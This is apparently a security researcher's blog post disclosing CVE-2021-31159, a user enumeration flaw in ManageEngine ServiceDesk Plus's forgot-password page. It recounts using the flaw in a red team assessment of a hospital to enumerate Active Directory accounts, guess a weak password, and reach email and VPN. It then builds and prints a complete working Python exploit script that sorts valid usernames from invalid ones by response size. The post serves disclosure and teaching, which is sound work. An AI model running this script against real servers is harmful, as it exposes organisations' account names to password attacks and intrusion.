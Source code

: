 ```yaml
---
layout: post
description: Finding and abusing CVE-2021-31159 for ServiceDesk Plus user enumeration 
title: Finding CVE-2021-31159 for ServiceDesk Plus enumeration 
excerpt_separator: <!--more-->
---
```


This vulnerability takes advantage of ServiceDesk Plus having different output in the password recovery functionality: if the user exists it returns a message claiming an email has been sent but if it does not exist the message is constant.

<!--more-->

Knowing this, it is possible to enumerate accounts in the application or, even better, accounts of an Active Directory if AD authentication is enabled. Very useful when the application is open to the internet and the format of the AD user accounts (for example, name initial + surname) is known.


---------------------------------------------------


## Finding and exploiting it

I found this vulnerability during a Red Team assesment in which there was an outdated ServiceDesk Plus server open to the Internet. In the login page, these servers allow to use local authentication or an AD domain (in this case I changed it to HOSPITAL.DOMAIN):

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image0.png?raw=true)

<br>

In the "forgot password" page, if the user does not exist you get a message like this:

![Login](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image1.png?raw=true)

<br>

This message is constant, and so has the same size, but it changes if the username is correct (in that case, it states the user will receive an email to update the password). So we can enumerate users, both local and in a domain. If the server is exposed to the Internet, such as in this case, we can enumerate the internal domain users!

I tested typical AD username formats using the most common Spanish surnames (this was a hospital in Spain), such as (name + surname) or (first letter of name + surname). I was lucky with the latter, using the initial "d" and the very common surname "García":

![Login 2](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image2.png?raw=true)

<br>

Then I tested all the alphabet using Burp:

![Burp](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image3.png?raw=true)

<br>

Nice, we got some correct users! We can use the Python library "requests" and get the same results:

![Python example](https://github.com/ricardojoserf/ricardojoserf.github.io/blob/master/images/image4.png?raw=true)


After this, I created a list with the common surnames in Spain ([https://gist.github.com/ricardojoserf/a4d7c62f6bcae19026cb5a3e72d2e4cd](https://gist.github.com/ricardojoserf/a4d7c62f6bcae19026cb5a3e72d2e4cd)) and enumerated many users. Luckily for me, they used the same format for the emails so I could get the credentials of one employee using other tool I created some time ago ([adfsbrute](https://github.com/ricardojoserf/adfsbrute)) and testing a very weak password (with the format *Companyname123*). From there, I could dump all the emails from Azure, connect to the VPN... a succesful Red Team assesment, abusing such a silly vulnerability!


## Creating the exploit

Now it is time to automate this attack using Python.

#### Creating the parser

First we create a parser with the library "argparse" to have the following parameters:

- domain: The AD Domain to attack
- target: The target url
- usersfile: File containing list of users
- outputfile (optional): File to store the correct users

```
def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args
```


#### Creating the main function and getting the parameters values

Next, we will define the main function, which will be the first one to run, and grab the content of the parameters calling the already defined function "get_args":

```
def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile
```

#### Getting the "incorrect size"

First we will test a user that will never exist to check the bytes in the response from the "forgot password" functionality. We will compare this size with different users: if the user does not exist, the size will be this.

```
resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
incorrect_size = len(resp_incorrect.content)
print("Incorrect size: %s"%(incorrect_size))
```

#### Finding correct users 

To check the list of users from te file, we will open it and create a list with each username from the file:

```
users = open(usersfile).read().splitlines()
```

Then we will iterate each user and create a request to the "forgot passsword" functionality, and checking the response size to find if it exists. If it does, it is added to the "correct_users" list:

```
correct_users = []
for u in users:
	resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
	valid = (len(resp.content) != incorrect_size)
	if valid:
		correct_users.append(u)
	print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))
```

Finally, we will write the correct users to a file and print each of them:

```
print("\nCorrect users\n")
with open(outputfile, 'w') as f:
	for user in correct_users:
		f.write("%s\n" % user)
		print("- %s"%(user))
	print("\nResults stored in %s\n"%(outputfile))
```


#### Final exploit

The final result is [this script]([https://github.com/ricardojoserf/CVE-2021-31159/blob/main/exploit.py):

```python
import argparse
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def get_args():
	parser = argparse.ArgumentParser()
	parser.add_argument('-d', '--domain', required=True, action='store', help='Domain to attack')
	parser.add_argument('-t', '--target', required=True, action='store', help='Target Url to attack')
	parser.add_argument('-u', '--usersfile', required=True, action='store', help='Users file')	
	parser.add_argument('-o', '--outputfile', required=False, default="listed_users.txt", action='store', help='Output file')
	my_args = parser.parse_args()
	return my_args


def main():
	args = get_args()
	url = args.target
	domain = args.domain
	usersfile = args.usersfile
	outputfile = args.outputfile

	s = requests.session()
	s.get(url)
	resp_incorrect = s.get(url+"/ForgotPassword.sd?userName="+"nonexistentuserforsure"+"&dname="+domain, verify = False)
	incorrect_size = len(resp_incorrect.content)
	print("Incorrect size: %s"%(incorrect_size))

	correct_users = []
	users = open(usersfile).read().splitlines()
	for u in users:
			resp = s.get(url+"/ForgotPassword.sd?userName="+u+"&dname="+domain, verify = False) 
			valid = (len(resp.content) != incorrect_size)
			if valid:
				correct_users.append(u)
			print("User: %s Response size: %s (correct: %s)"%(u, len(resp.content),str(valid)))

	print("\nCorrect users\n")
	with open(outputfile, 'w') as f:
		for user in correct_users:
			f.write("%s\n" % user)
			print("- %s"%(user))

	print("\nResults stored in %s\n"%(outputfile))


if __name__ == "__main__":
    main()
```

## References

- Zoho announcement thanking for the report: [https://www.manageengine.com/products/service-desk-msp/readme.html#10519](https://www.manageengine.com/products/service-desk-msp/readme.html#10519)
- Github repo: [https://github.com/ricardojoserf/CVE-2021-31159](https://github.com/ricardojoserf/CVE-2021-31159)
- Nist: [https://nvd.nist.gov/vuln/detail/CVE-2021-31159](https://nvd.nist.gov/vuln/detail/CVE-2021-31159)
- Mitre: [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-31159)
- Packetstormsecurity: [https://packetstormsecurity.com/files/163192/Zoho-ManageEngine-ServiceDesk-Plus-9.4-User-Enumeration.html](https://packetstormsecurity.com/files/163192/Zoho-ManageEngine-ServiceDesk-Plus-9.4-User-Enumeration.html)

